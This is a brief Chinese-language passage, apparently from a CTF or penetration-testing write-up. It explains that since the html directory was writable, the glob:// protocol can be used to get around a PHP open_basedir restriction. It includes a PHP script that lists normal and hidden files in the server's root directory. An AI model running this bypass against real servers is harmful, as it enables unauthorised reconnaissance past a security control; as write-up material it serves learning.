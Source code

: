 还有open_basedir限制，利用自动化脚本无法突破。由于html目录可写，利用`glob://`协议先探测目录

> glob:// — 查找匹配的文件路径模式

```
<?php
printf('<b>open_basedir : %s </b><br />', ini_get('open_basedir'));
$file_list = array();
// normal files
$it = new DirectoryIterator("glob:///*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
// special files (starting with a dot(.))
$it = new DirectoryIterator("glob:///.*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
sort($file_list);
foreach($file_list as $f){
        echo "{$f}<br/>";
}
?>
```
